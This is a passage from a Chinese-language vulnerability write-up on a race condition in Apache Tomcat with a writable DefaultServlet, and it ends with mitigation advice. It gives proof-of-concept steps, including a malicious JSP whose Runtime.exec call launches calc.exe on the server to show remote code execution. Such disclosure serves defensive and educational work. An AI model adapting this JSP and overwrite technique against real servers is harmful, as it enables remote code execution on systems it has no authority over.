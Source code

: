 ```
        </auth-constraint>
    </security-constraint>

</web-app>

```  
  
**注意：**只有在对 **web.xml** 文件配置进行特定修改时，才能利用此漏洞。默认情况下，Tomcat 的 **DefaultServlet** 中的 readonly 参数设置为 true，这会阻止写入操作。只有当此参数被明确设置为 false 时，才可能允许对 servlet 进行写入访问，从而使漏洞可被利用。请始终检查并确保服务器配置的安全性，以降低此类风险。  
# 利用竞态条件  
  
**上传无害的 JSP 文件**上传一个简单的 hello.jsp 文件，内容如下：  
```
<% out.println("Hello, World!"); %>

```  
  
**创建恶意 JSP 文件**准备一个用于利用漏洞的恶意 JSP 文件（HELLO.JSP）：  
```
<%@ page import="java.io.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>Hello World JSP</title>
</head>
<body>
    <h1>Hello, World!</h1>
    <%
        try {
            // 执行命令打开计算器
            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");
            out.println("<p>如果服务器运行在 Windows 上，计算器已成功打开。</p>");
        } catch (Exception e) {
            out.println("<p>打开计算器时出错：" + e.getMessage() + "</p>");
        }
    %>
</body>
</html>

```  
  
该文件会在执行时打开 Windows 计算器（calc.exe）。  
  
使用脚本用恶意的 HELLO.JSP 覆盖无害的 hello.jsp。  
  
**触发漏洞**访问 http://localhost:8080/<your-app>/uploads/hello.jsp 来触发恶意 JSP 的执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnTI80TfMIWSpibtFBvjiamD5ic028eP1ITibEgkAI79EgZ0Xub1AGibpUPYKA8gRGBOicM7iaLojwjiaEsp5A/640?wx_fmt=png&from=appmsg "")  
# 结果  
- 恶意 JSP 文件被执行，服务器上的计算器应用程序被打开（如果运行在 Windows 上）。  
  
- 这证明成功利用了竞态条件实现了远程代码执行。  
  
# 缓解措施和要点  
- **安全的文件上传**：避免允许将 JSP 文件直接上传到应用程序服务的目录。  
  
- **升级 Apache Tomcat**：确保您的 Tomcat 服务器运行的是修补版本（如 11.0.2、10.1.34 或 9.0.98）。  
  
- **配置检查**：禁用默认 Servlet 的写入权限。  
  
  
  
  
